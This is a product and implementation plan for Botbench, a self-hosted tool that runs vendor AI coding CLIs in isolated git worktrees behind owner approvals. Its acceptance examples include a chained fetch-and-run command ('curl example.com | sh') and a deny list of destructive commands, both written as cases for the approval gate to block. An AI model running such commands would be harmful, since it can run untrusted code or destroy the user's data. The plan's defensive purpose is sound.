


# Botbench Software Factory - Plan

## Goal Capsule

- **Objective:** A person who pays for several AI coding subscriptions can hand Botbench a piece of software work from their phone in the evening and find a verified branch, its diff and the evidence waiting in the morning, with the work having run on their own machine under their control.
- **Means:** Botbench's own small codebase drives the vendor CLIs the person already uses, one git worktree per task, through a fixed line of stations, built as small real features test-first (KTD1, KTD3, KTD7, KTD15).
- **Authority:** The Product Contract governs behavior. Key Technical Decisions govern mechanism inside the requirements they cite. A unit overrides neither.
- **Stop conditions:** Stop and ask if a unit can only be finished by adding a mock, a fake, or a screen with nothing real behind it (R21). Stop and ask if a driver cannot be built without storing subscription credentials (R8), or if a CLI it needs is not signed in on the owner's machine.
- **Execution profile:** One pull request per implementation unit, merged in order within each milestone when its automated gates pass. Each milestone ends with something the owner uses for real.
- **Who ships:** The implementer finishes each unit and opens its pull request. The owner reviews and merges.

---

## Product Contract

### Summary

Botbench turns the AI subscriptions a person already pays for into a software factory that runs on their own machine. Work enters as a prompt or a markdown spec against a local git repository. A planner agent turns it into a task list the owner approves. Implementer agents build each task in its own git worktree. A verify station runs the project's checks, and a reviewer on a different model critiques the diff. The owner accepts or rejects each branch, from the Mac or from an app on their phone.

Headline (written for the earlier name, Smelt): "Smelt your AI subscriptions into shipped code." Tagline: "Multi-model agents. Isolated work. Verified PRs."

### Problem Frame

Every major AI provider now offers a cloud sandbox and harness so its own model can work autonomously. Each one keeps the code, the transcripts and the control on the provider's machines, and each one runs only that provider's models. People who pay for several subscriptions still switch tools by hand and leave most of that paid capacity idle.

Teams also hold back from agents because they fear what ends up on someone else's machines. A harness the owner runs on their own box removes the sandbox vendor from that picture and removes the lock-in to one provider's models.

Two open-source projects were studied as possible bases. OpenMausBot drives vendor CLIs well, but it is a 475k-line monolith built around chat, with no worktrees, planner, verify station or pull-request flow. Rakazo runs its own agent loop, needs Postgres and five services, and lists "CI system" as a non-goal. Botbench takes ideas from both and is its own codebase.

### Key Decisions

- **The product is named Botbench.** (session-settled: user-directed — renamed from Smelt on 2026-11-22. Smelt had been chosen over Forge, Quench, Stoke and Cog because it carried the pitch as a verb.)
- **Own codebase, inspired by OpenMausBot and Rakazo.** (session-settled: user-directed — chosen over forking OpenMausBot: the owner wants to take inspiration and make it their own.) Governs R18.
- **Nothing fake.** No mocks in tests and no feature shipped without the real thing behind it. (session-settled: user-directed — chosen over a mock-data wireframe and fake CLIs: "we agree to never mock or make fake features".) Governs R21, R22.
- **Captured real CLI sessions may be replayed in tests.** This is the one exception to "nothing fake": a session recorded from a real CLI run may be replayed through the driver contract for scenarios a live model cannot be made to produce. (session-settled: user-approved — chosen over leaving those scenarios to the owner's check alone.) Governs R22.
- **The phone reaches Botbench over Tailscale with its HTTPS certificates on.** (session-settled: user-approved — chosen over plain HTTP on the private network, which cannot support a phone app with notifications.) Governs R19, R23.
- **Small testable features, built test-first.** (session-settled: user-directed — chosen over nine large units.) Governs R22.
- **Four vendor CLIs: Claude Code, Codex, Gemini CLI, Grok.** (session-settled: user-directed — chosen over Claude Code plus one other.) Governs R7.
- **Usable from a phone, including a phone app.** (session-settled: user-directed — chosen over Mac-only access.) Governs R19, R23.
- **Runs can finish unattended on a pre-approved command list.** (session-settled: user-directed — chosen over attended runs only.) Governs R20.
- **Drive existing CLIs, do not replace them.** From the owner's PRD. The owner accepts running each vendor's CLI unattended on their own subscriptions: self-hosting on tools already paid for is the point. Governs R7, R8.
- **A person approves before anything leaves the machine.** Botbench itself pushes and posts nothing in this plan. Each CLI still sends prompts and code to its model provider under the owner's login. Governs R6, R10.

### Guiding Principles

These steer choices throughout the build. They are not requirements of this plan.

- **Botbench maintains Botbench.** Once the line works (after U14), later units are run through Botbench on its own repository wherever possible, and what that exposes is fixed first.
- **Botbench can be attached to a GitHub repository and fix reported bugs.** Issue intake and pull requests are the next plan. That plan keeps the self-hosted promise by having the owner's machine fetch issues and open pull requests itself, so no code passes through a Botbench-run service.
- **Every stage validates without the owner.** Automated gates decide whether a unit is done. Owner checks are collected per milestone and do not hold up the next unit. The exceptions need a person once: signing in to a vendor CLI, private-network and HTTPS setup, and checks on a physical phone.

### Requirements

**Runs**

- R1. The owner can start a run from a freeform prompt or a markdown spec file, against a local git repository they choose.
- R2. A planner agent produces a task list with acceptance criteria per task. The owner can edit it and must approve it before any build starts.
- R3. Each task is built in its own git worktree on its own branch. The owner's checkout and current branch are never modified.
- R4. After a task is built, Botbench runs the repository's configured check commands in that worktree and stores their output as evidence on the task.
- R5. The owner can turn on a reviewer for a run. The reviewer runs on a different model than the implementer and attaches its critique of the diff as evidence.
- R6. A run ends by presenting each task's branch, diff and evidence. The owner records accept or reject. Botbench pushes nothing and opens no pull request in this plan.

**Models and subscriptions**

- R7. Each role (planner, implementer, reviewer) is assigned a driver and model, changeable per run. Botbench supports Claude Code, Codex, Gemini CLI and Grok.
  - Note (2026-11-23): the shipped driver for Gemini is Antigravity (`agy`), used as a reviewer and in chat; since #132 with its own tools, through its ACP server (`agy acp`) on Botbench's own Google profile.
- R8. Drivers use the login the owner already has in each CLI. Botbench never asks for, reads, or stores subscription credentials, and never causes a subscription session to be billed as metered API use.
- R25. The owner chooses the model for a task, and for each role of a run, in the client. The choices offered are the ones that driver accepts, and the choice made is shown on the task.
- R26. The owner connects a subscription from the client. Botbench starts that vendor CLI's own sign-in and shows the owner the link or code it gives; the owner signs in with the vendor (with Google or however that vendor does it), and the CLI keeps its own credentials. Botbench never sees, stores or forwards them.
- R9. The owner can move a task to another driver mid-build. When a driver reports a rate limit, Botbench does this on its own using the role's next configured driver, and the run records the switch.

**Control**

- R10. When an agent needs permission for an action, the action pauses as an approval card. A pending approval waits until answered and survives a restart.
- R11. After the owner approves the same kind of action for the same role a configured number of times, the card offers standing permission. Standing permissions are narrow, listed, and revocable. A fixed list of dangerous actions is never eligible.
- R12. Every approval decision and every action that ran on standing or pre-approved permission is recorded in an append-only log.
- R20. When starting a run, the owner confirms a list of commands that run's agents may use in that repository without asking. The never-eligible list in R11 still always asks.

**Visibility**

- R13. A dashboard shows runs grouped by station, pending approvals, and tokens and cost per run and per model. Each cost is marked as reported by the CLI, estimated, or covered by subscription.
- R14. The owner can watch each task's transcript live and read it afterward.

**Ownership and reach**

- R15. After Botbench restarts, finished tasks are not repeated. A task that was mid-turn is retried once and otherwise marked interrupted for the owner to resume.
- R16. A technical user reaches a first completed run within 15 minutes of cloning, with no Docker, database server, or external account beyond the CLIs already installed.
- R19. The owner can use Botbench from their phone over a private network. Every request, from any device, must carry the owner's login, and Botbench listens only on the addresses the owner configured.
- R23. Botbench can be installed on the owner's phone as an app, and it notifies the phone when an approval or a decision is waiting.
- R24. Code, transcripts, evidence and the action log are stored only on the owner's machine. Botbench sends nothing to any service of its own, and the README states plainly what each vendor CLI still sends to its provider.

**How it is built**

- R21. Every feature is real when it ships: no screen, button, driver or status is present before the behavior behind it works.
- R22. Every unit is built test-first, and its tests exercise real things: a real git repository, the real database, a real HTTP server, and the real vendor CLI.
- R18. Any file copied from another project keeps its licence notice, and Botbench's `NOTICE` names the source.

### Key Flows

- **F1. A run, end to end.** Owner starts a run and confirms the pre-approved commands (R1, R20). Planner proposes tasks. Owner edits and approves (R2). Each task builds in a worktree (R3), pausing for approvals as needed (R10). Checks run (R4). The reviewer runs when enabled (R5). The owner accepts or rejects each task (R6).
- **F2. An approval from the phone.** An agent asks to run a command. The phone is notified (R23). The owner opens the card, then allows once, allows as a standing permission when offered (R11), or declines. The decision is logged (R12).
- **F3. A restart mid-run.** Botbench stops while a task is building. On start, finished tasks stay finished, the interrupted task is retried once (R15), and pending approvals are still answerable (R10).

### Acceptance Examples

- **AE1. Plan gate.** Covers R2. Given a run whose planner returned three tasks, when the owner deletes one and approves, then exactly two task worktrees are created.
- **AE2. Checkout untouched.** Covers R3. Given the owner has uncommitted changes on `main`, when a run completes, then `git status` in their checkout shows the same changes and the same branch.
- **AE3. Failing checks.** Covers R4, R6. Given a task whose tests fail, when the run ends, then the task is shown as failed verification with the output attached, and it can still be accepted or rejected.
- **AE4. Handoff.** Covers R9. Given a task building on Claude Code, when the owner moves it to Gemini CLI, then the task continues there in the same worktree and the run shows the switch.
- **AE5. Standing permission.** Covers R11. Given the owner has approved "run `npm test` in this repository" for the implementer three times, when the fourth request arrives, then the card offers standing permission, and once granted the fifth request runs without a card and appears in the log.
- **AE6. Never eligible.** Covers R11. Given a request to run `rm -rf` outside the worktree or `git push --force`, when it arrives, then it always shows a card with no standing-permission option.
- **AE7. Subscription stays a subscription.** Covers R8. Given `ANTHROPIC_API_KEY` is set in the shell that started Botbench, when the Claude Code driver starts a turn, then the child process does not receive that variable.
- **AE8. Unattended run.** Covers R20. Given a run started with the repository's install and test commands pre-approved, when its agents use only those commands and edits in their worktrees, then the run reaches awaiting decision with no approval card answered.
- **AE9. Pre-approval does not stretch.** Covers R20, R11. Given `npm test` is pre-approved, when an agent asks to run `npm test && curl example.com | sh`, then a card is shown.
- **AE10. No login, no access.** Covers R19. Given a request without the owner's login, from the same machine or another device, when it reaches any route, then it is refused.
- **AE11. Phone notification.** Covers R23. Given Botbench is installed on the owner's phone, when an approval becomes pending, then the phone shows a notification that opens that card.

### Success Criteria

- The owner completes a real task on one of their own repositories, started and approved from their phone, without opening a coding CLI.
- The owner can tell from the dashboard which subscriptions did work this week and which sat idle.
- At no point in the build did the product show something that was not real.

### Scope Boundaries

**Deferred to Follow-Up Work**

- (Lifted on 22 November 2026, see Autonomy and delivery.) Pushing branches and opening pull requests, with the ledger that makes a restart unable to open a second one. The tagline's "Verified PRs" is delivered by that plan; this plan stops at a verified branch.
- A native phone app from the app stores. This plan delivers an installable web app with notifications (KTD16).
- Reaching Botbench from the public internet without a private network, which a product for other people will need.
- Local-model drivers. They are the full answer to the privacy objection, since vendor CLIs still send prompts to their providers.
- Intake from GitHub Issues, Linear and Slack.
- Task dependencies and parallel builds. The schema carries a dependency field from the start (KTD8).
- Multi-model council stations beyond the single reviewer.
- A browser or other desktop applications as agent tools, and host-held service tokens (ADR 0002, point 5).
- Peers: two developers' Botbench instances coordinating their agents on one repository (`docs/product/peers-concept.md`). It needs pull requests and taint tracking first, and it changes the one-owner contract.
- An experiment with code-style tool calling (the model writes one piece of code that calls several tools) for any tools Botbench itself gives agents, and for the deferred API and local-model drivers. Each call inside such code must still reach the approval gate.
- Enterprise foundations: SSO, SCIM, multi-tenancy, policy hooks, compliance documents.

**Considered and not built**

- **A mock-data wireframe.** The earlier plan opened with one. R21 rules it out. Each screen is built with the real behavior behind it, and Nexvyn UI is used for the shell where its licence allows.
- **Fake CLIs for driver tests.** R22 rules them out. Driver tests run the real CLI.
- **Tainting runs that read outside text.** Every input in this plan is typed by the owner. This changes when GitHub issue intake arrives.
- **Timeouts on approvals.** A factory that works overnight must wait (R10).

**Outside this product's identity**

- A fully autonomous factory with no human review.
- Replacing the vendor CLIs with Botbench's own agent loop.
- A hosted Botbench that holds users' code.

### Open Questions

- **Nexvyn UI licence (deferred, does not block).** GitHub reports no standard licence for `Nexvyn/Nexvyn-ui`. U4 reads its licence file first and uses plain shadcn components if it does not allow use in an Apache-2.0 project.
- **Sign-in to the new CLIs (owner action until U26 ships, blocks U17 to U19).** Codex 0.171.0, Gemini CLI 0.70.0 and Grok 1.0.92 are installed on the owner's Mac. Codex reports "Not logged in"; Gemini CLI and Grok were not checked. Each needs the owner to sign in once.

### Sources

- The owner's "OpenMaus Factory" PRD, version 1.0, November 2026, and the owner's later direction in this session.
- Code studies of `milind-soni/OpenMausBot` (Apache-2.0 except `enterprise/`) and `elie222/rakazo` (Apache-2.0) on 2026-11-21.
- Installed CLI help output on 2026-11-21: Claude Code 2.1.322 (`--print`, stream-json input and output, `--resume`, `--permission-prompt-tool`, `--setting-sources`, `--strict-mcp-config`); Codex (`app-server`, with `generate-json-schema` for its protocol); Gemini CLI (`--acp`, `--output-format stream-json`, `--approval-mode`); Grok (`agent stdio`, and `--permission-mode`).
- Prior prototype `../botdeck` (approval ladder, usage bucketing, loopback server checks).

---

## Planning Contract

### Key Technical Decisions

- KTD1. **New repository, Apache-2.0, written from the contracts and not copied wholesale.** OpenMausBot's driver layer is 39k lines importing 213 paths outside itself, so it cannot be lifted as a module. Small self-contained files may be copied, each recorded in `NOTICE` with its upstream notice, including the MIT notice on files OpenMausBot adapted from T3 Code (R18).
- KTD2. **TypeScript on Node 24 or later, run directly with no server build step.** One process, `node:http`, one server-sent-events stream, `node:sqlite` in a single database under `~/.botbench`. This is what makes R16 reachable.
- KTD3. **Drivers are stdio subprocesses speaking each CLI's structured headless protocol, behind one adapter contract.** The contract has `sendTurn`, `interruptTurn`, `respondToRequest`, `onEvent`, an opaque resume cursor, and capability flags, and every driver emits one normalized event union. Claude Code uses stream-json with a retained process. Codex uses its app-server protocol, typed from the schema the CLI generates. Gemini CLI uses `--acp`. Grok is started with `grok agent stdio`, which serves the same Agent Client Protocol. No pty and no vendor agent SDK.
- KTD4. **Launch isolation protects the subscription and the approvals.** The child environment is built from an allowlist, and provider API-key variables are removed (AE7). Each CLI is started without the owner's personal settings, permission allow rules, hooks, plugins and MCP servers, while the repository's own instructions still load. For Claude Code that is `--setting-sources project` with `--strict-mcp-config`. Each driver unit finds the equivalent for its CLI. Botbench implements no OAuth of its own and calls no unofficial usage endpoints. Connecting a subscription from the client (R26) runs the vendor CLI's own sign-in command as a child process and relays only what that command prints for the owner to act on: a link, a device code, or a prompt for a pasted code. The token exchange happens between the vendor and its CLI.
- KTD5. **Tool-level approvals go through one permission broker.** Each driver routes its CLI's permission requests to an in-process broker that writes the approval row, emits the event, and blocks until answered. Any broker failure denies. A CLI only asks when it would otherwise prompt, so the broker alone misses commands the CLI treats as safe and commands allowed by rules committed in the repository. The Claude Code driver therefore also registers a Botbench pre-tool hook through `--settings`, which sends every shell and write call to the gate before the CLI's own rules apply. Each other driver states its equivalent interception point or reports the capability as missing, and a driver without it is offered for read-only roles only. The implementer may edit inside its worktree and asks for everything else. Planner and reviewer run read-only. The planner works in a detached worktree of the base commit, never in the owner's checkout (R3).
- KTD6. **Grants are narrow, keyed on the repository, and capped by a safety floor.** A grant is an exact command plus the source repository plus the working directory relative to the worktree root, or a named tool, scoped to a role. Approval counts use the same key. A run's pre-approved list is stored as grants scoped to that run and matches a request whose leading words equal the entry and which contains no shell operators that chain, pipe, substitute or redirect (AE9). A never-list overrides every grant (AE6).
- KTD7. **Isolation is one git worktree per task, on the host, and Botbench commits the work.** Worktrees live under `~/.botbench/worktrees/<run>/<task>` on branch `botbench/<run>/<task>`, from the repository's current `HEAD` commit. Setup commands configured per repository run in each new worktree. When an implementer's turn ends, Botbench stages and commits everything to the task branch. The diff is base commit to branch head.
- KTD8. **Runs and tasks are two row-driven state machines, with attempts under tasks.** The run row carries planning, awaiting plan approval, running, awaiting decision, done and cancelled. Each task row carries queued, building, verifying, reviewing, awaiting decision, blocked, interrupted and decided. Tasks proceed one at a time. Each task has a `depends_on` field left empty in this plan. State changes and their events are written in one transaction.
- KTD9. **Restart recovery reconciles from the database.** Each attempt records its CLI's process group, and on start Botbench stops any that survived before re-driving, so two agents never write to one worktree. A task that was mid-turn is re-driven once from its resume cursor and otherwise marked interrupted. A task blocked on a pending approval is parked: when the owner answers, Botbench re-drives it and applies the stored answer once to the first matching request.
- KTD10. **Usage is an append-only ledger whose cost kind comes from the login, not from the CLI's printout.** Each driver's probe reports whether the login is a subscription or metered, without reading credentials. A subscription turn stores no dollar amount even when the CLI prints one. A CLI that cannot report its login kind is shown as unknown, and its turns are counted in tokens only.
- KTD11. **Routing is configuration with ordered fallbacks, and a handoff starts fresh.** The next driver gets a new session with the task, its acceptance criteria, a note that an earlier attempt stopped, and the worktree's diff. Resume cursors never cross drivers.
- KTD12. **The client is React with Vite and Tailwind, using Nexvyn UI for the shell where its licence allows and plain shadcn components elsewhere.** `DESIGN.md` at the repository root is the design authority: its tokens and bans override component defaults, and every unit that touches `web/` reads it first. The built client is static files served by the Botbench process. It is laid out for a phone first.
- KTD14. **One owner login guards every route, and the listen addresses are configuration.** Botbench creates a random token on first start, stores it under `~/.botbench` readable only by the owner, and shows it once. A device signs in with it and receives a session cookie that scripts cannot read. Requests from the same machine need the login too. Botbench listens on the loopback address plus any address the owner lists, such as the Mac's private-network address. The phone reaches Botbench over HTTPS under the Mac's private-network name, with the private network's own tool terminating TLS in front of Botbench's loopback listener (for Tailscale, `tailscale serve`). A phone app with notifications needs this, because browsers only run service workers and push on a trusted HTTPS origin. The session cookie is marked secure when reached that way.
- KTD15. **Tests use real things, in three layers.** Unit and integration tests use a real temporary git repository, the real database in a temporary directory, and a real HTTP server on a free port. Live tests under `test/live/` start the real vendor CLI with a tiny prompt on its cheapest model and are run before each driver unit merges. End-to-end tests drive the real client in a browser against a real Botbench process. Any scenario that needs an agent turn is a live test; files outside `test/live/` and `e2e/` never start a driver. The one allowed exception is replaying a session captured from a real CLI run through the driver contract, for scenarios a live model cannot be made to produce. Each recording is stored with the CLI version and date it came from.
- KTD16. **The phone app is an installable web app with web push.** The client ships a manifest and a service worker, so it installs to the home screen on iOS and Android. Botbench sends notifications through the standard Web Push protocol with keys it generates and keeps locally. This passes notification text through Apple's or Google's push service, so notifications carry only "an approval is waiting" and the run name, never commands or code (R24).

### High-Level Technical Design

Task stations, one task at a time while the run is running:

### Assumptions

- The owner's repositories are local git repositories with at least one commit.
- Check, setup and pre-approved commands are supplied per repository. Botbench does not detect them.
- The owner's Mac and phone are on the same private network, such as Tailscale, with its HTTPS certificates turned on.
- Live tests may spend a small amount of subscription usage.

### Risks

- **CLI protocols change under us.** Each driver probes the CLI version against a table of the flags it needs and refuses an unsupported version. Live tests catch a break before merge.
- **Live tests are slower and less repeatable than mocked ones.** This is the accepted cost of R22. Assertions are on structure (a turn ended, a file was written, a permission was requested), never on the model's wording.
- **Checks run code the agent just wrote, on the host.** Accepted for the owner's own repositories and named here. A sandbox for checks is deferred.
- **A CLI may not hold a permission request open for hours.** U7 measures this on the real CLI. If it times out, the task takes the park-and-re-drive path (KTD9).
- **Web push on iOS requires the app to be installed to the home screen.** U23 verifies this on the owner's phone.
- **Tasks cannot build on each other** until task dependencies land. The planner is told to produce independent tasks.

---

## Implementation Units

Every unit follows the same execution rule: write the listed tests first and watch them fail for the right reason, then build until they pass. No unit adds a control or status whose behavior is not built in that unit or an earlier one (R21).

| Unit | Title | Depends on |
|---|---|---|
| U1 | Scaffold, store and health | none |
| U2 | Owner login and listen addresses | U1 |
| U3 | Claude Code driver: one real turn | U1 |
| U4 | Client shell: sign in, send a turn, watch it live | U2, U3 |
| U5 | Worktree per task, Botbench commits the work | U1 |
| U6 | Tasks in the client: start a task in a repository, see its diff | U4, U5 |
| U25 | Choose the model for a task | U6 |
| U7 | Permission broker and approval cards | U6 |
| U8 | Approvals survive a restart | U7 |
| U9 | Safety floor and pre-approved commands | U7 |
| U10 | Standing permissions and the action log | U9 |
| U11 | Runs and the plan gate | U6 |
| U12 | Build station with setup commands | U11, U9 |
| U13 | Verify station | U12 |
| U14 | Decisions: accept and reject | U13 |
| U15 | Run recovery after restart | U12, U8 |
| U16 | Runs board | U14 |
| U26 | Connect a subscription from the client | U16 |
| U17 | Codex driver | U7 |
| U18 | Gemini CLI driver | U7, U17 |
| U19 | Grok driver | U18 |
| U20 | Roles and the reviewer station | U13, U17, U18 |
| U21 | Handoff between drivers and rate-limit fallback | U12, U17, U18 |
| U22 | Usage ledger and dashboard | U16 |
| U23 | Phone app: install and notifications | U7, U2, U14, U16 |
| U24 | First-run path and README | U16 |

### Milestone 1: One real turn, from the phone

### U1. Scaffold, store and health

**Goal:** A Botbench process starts on a clean machine and owns one database.
**Requirements:** R16, R18, R22, R24.
**Dependencies:** None.
**Files:** `package.json`, `tsconfig.json`, `LICENSE`, `NOTICE`, `botbench.config.json`, `src/config.ts`, `src/store/db.ts`, `src/store/schema.ts`, `src/store/atomic.ts`, `src/server.ts`, `test/store.test.ts`, `test/config.test.ts`, `test/server.test.ts`.
**Approach:** Create only the tables this unit and U3 use (events, attempts, a schema version). Later units add their own tables by migration, so no table exists before something writes to it.
**Patterns to follow:** `../botdeck/src/db.ts`, `../botdeck/src/config.ts`.
**Test scenarios:**
- A fresh data directory gets the current schema with owner-only permissions; opening it again changes nothing.
- A database at an older schema version is migrated forward and keeps its rows.
- A local config file overrides defaults; an unknown driver name is rejected with a message naming where it appeared.
- The running server answers a health request and nothing else.
**Verification:** `npm start` on a clean machine creates `~/.botbench` and answers the health request.

### U2. Owner login and listen addresses

**Goal:** Nothing in Botbench is reachable without the owner's login, from any device.
**Requirements:** R19, R24.
**Dependencies:** U1.
**Files:** `src/api/auth.ts`, `src/server.ts`, `test/api/auth.test.ts`.
**Approach:** Implement KTD14, including `Host` and `Origin` checks with configured host names allowed.
**Patterns to follow:** `../botdeck/src/server.ts` for the header checks.
**Test scenarios:**
- Covers AE10. A request with no session is refused on every route except sign-in, from the loopback address as well as a configured address.
- Signing in with the token sets a session cookie scripts cannot read; a wrong token is refused, and repeated wrong tokens are slowed down.
- With no extra address configured, Botbench listens on the loopback address only.
- A request arriving through the configured HTTPS name is accepted, and its session cookie is marked secure.
- The token file is readable only by the owner, and the token never appears in logs or responses after first start.
- A request with a foreign `Origin`, or a non-JSON body on a write route, is refused.
**Verification:** From another device on the private network, the health route is refused before sign-in and answers after it.

### U3. Claude Code driver: one real turn

**Goal:** Botbench runs a turn in the real Claude Code, streams normalized events, stores them, resumes and interrupts.
**Requirements:** R7, R8, R14, R22.
**Dependencies:** U1.
**Files:** `src/drivers/contract.ts`, `src/drivers/events.ts`, `src/drivers/launch.ts`, `src/drivers/claude-code.ts`, `test/drivers/launch.test.ts`, `test/live/claude-code.live.test.ts`.
**Approach:** Define the contract and event union (KTD3). Put the environment allowlist, settings and MCP isolation, process-group kill, and the version, login and billing-kind probe in `launch.ts` (KTD4, KTD10). Persist every event as it arrives. The signed-out path is tested by starting the real CLI with an empty configuration directory, and the version check by calling the version-table function on version strings. Later units test those states the same way.
**Patterns to follow:** OpenMausBot's `server/contracts.ts` and `runtime-events.ts` for shapes to re-type. Rakazo's `providers/cli-model/claude-code/cli.ts` for launch.
**Test scenarios:**
- Live: a turn asking for a one-word reply yields text, usage and turn-end events in order, and they are in the database.
- Live: a second turn with the stored resume cursor can state a word given in the first turn.
- Live: interrupting a long turn ends it with an interrupted event and leaves no child process.
- Covers AE7. With `ANTHROPIC_API_KEY` set in the parent, the environment built for the child does not contain it. This is tested on the launch function's real output and on a real child process that prints its environment.
- The launch arguments exclude user and local setting sources and personal MCP servers.
- A CLI version missing a required flag is reported as unsupported and no turn starts; a signed-out CLI is reported as signed out.
**Verification:** The live tests pass on the owner's machine with Claude Code 2.1.322.

### U4. Client shell: sign in, send a turn, watch it live

**Goal:** From a phone or the Mac, the owner signs in, sends a prompt to Claude Code, and watches the reply arrive.
**Requirements:** R14, R19, R21.
**Dependencies:** U2, U3.
**Files:** `NOTICE`, `web/package.json`, `web/index.html`, `web/src/main.tsx`, `web/src/app/shell.tsx`, `web/src/screens/sign-in.tsx`, `web/src/screens/turn.tsx`, `web/src/api/client.ts`, `src/api/routes.ts`, `src/api/stream.ts`, `test/api/turns.test.ts`, `e2e/turn.e2e.ts`.
**Approach:** Read Nexvyn UI's licence first and record the outcome in `NOTICE`. Build the shell with one working screen. The shell's navigation lists only screens that exist. Lay out for a phone first, with 44px touch targets, keyboard-reachable actions, and text or an icon wherever colour carries meaning.
**Test scenarios:**
- A turn started through the API returns an id, and the event stream delivers its events in order.
- A client that connects late can fetch the full transcript and then receives only new events.
- End to end, at phone width: sign in, send a prompt, and the real reply appears without a reload.
- A dropped event stream shows a banner and recovers.
- With Claude Code signed out, the screen says so and offers no send button.
**Verification:** The owner sends a prompt from their phone over the private network and reads the reply.

### Milestone 2: Safe hands

### U5. Worktree per task, Botbench commits the work

**Goal:** Work happens in a separate copy, and the owner's checkout is never touched.
**Requirements:** R3.
**Dependencies:** U1.
**Files:** `src/worktrees.ts`, `test/worktrees.test.ts`.
**Approach:** Implement KTD7: create, commit the work, describe (branch, base commit, per-file diff), remove only when clean.
**Test scenarios:**
- Covers AE2. With uncommitted changes and a checked-out branch in the source repository, creating, committing in, and removing a worktree leaves the source's `git status` and branch unchanged.
- After files are modified and created in a worktree, Botbench's commit puts them on the task branch, and removing the worktree loses nothing.
- Two tasks get two worktrees and two branches from the same base commit.
- A branch name collision with an earlier run is resolved with a new name, never by reusing or resetting the old branch.
- A path that is not a git repository, or one with no commits, is rejected with a clear message.
**Verification:** After the tests, `git worktree list` in the test repository shows no leftovers.

### U6. Tasks in the client: start a task in a repository, see its diff

**Goal:** The owner points Botbench at a repository, gives one task, and sees the files Claude Code changed on a branch.
**Requirements:** R1, R3, R6, R14.
**Dependencies:** U4, U5.
**Files:** `src/store/schema.ts` (tasks migration), `src/engine/task.ts`, `src/api/routes.ts`, `web/src/screens/new-task.tsx`, `web/src/screens/task.tsx`, `test/engine/task.test.ts`, `test/live/task.live.test.ts`, `e2e/task.e2e.ts`.
**Approach:** A task is one implementer turn sequence in one worktree, ending with Botbench's commit. The task screen shows the transcript, then changed files with line counts, each expandable to a unified diff. At this point the agent may only edit inside its worktree and every other action is denied, with a plain note saying approvals arrive in the next unit.
**Test scenarios:**
- Live: a task "create hello.txt containing hi" in a temporary repository ends with a commit on a task branch containing that file, and the source checkout is unchanged.
- The diff route returns per-file changes from base commit to branch head.
- Live: a task told to run a script committed in the fixture repository, which writes a marker file, records the command as denied, and the marker file does not exist.
- End to end at phone width: choose a repository, start a task, and expand a file's diff.
**Verification:** The owner runs one small real task on one of their repositories and reads the diff on their phone.

### U25. Choose the model for a task

**Goal:** The owner picks which model does the work, from the phone, before starting it.
**Requirements:** R7, R25, R21.
**Dependencies:** U6.
**Files:** `src/drivers/contract.ts`, `src/drivers/claude-code.ts`, `src/config.ts`, `src/api/routes.ts`, `src/engine/task.ts`, `web/src/screens/new-task.tsx`, `web/src/screens/turn.tsx`, `web/src/screens/task.tsx`, `test/api/models.test.ts`, `test/live/models.live.test.ts`, `e2e/models.e2e.ts`.
**Approach:** Each driver reports the models it accepts. For Claude Code that is the list the CLI itself documents or reports, never a list invented by Botbench; where a CLI cannot report one, the choices come from the owner's configuration and the screen says so. The picker sits on the new-task and turn screens, defaults to the configured model for the role, and the model that actually answered is shown on the task from the driver's own session event.
**Test scenarios:**
- The models route returns the driver's list and the configured default, and needs a session.
- A model value that is not a plain model name is rejected before any worktree or attempt is created. A name the list does not offer may be typed under "Other"; the real CLI decides whether it exists, and its own error is shown in words.
- Live: a task started with a chosen model reports that model in its session event.
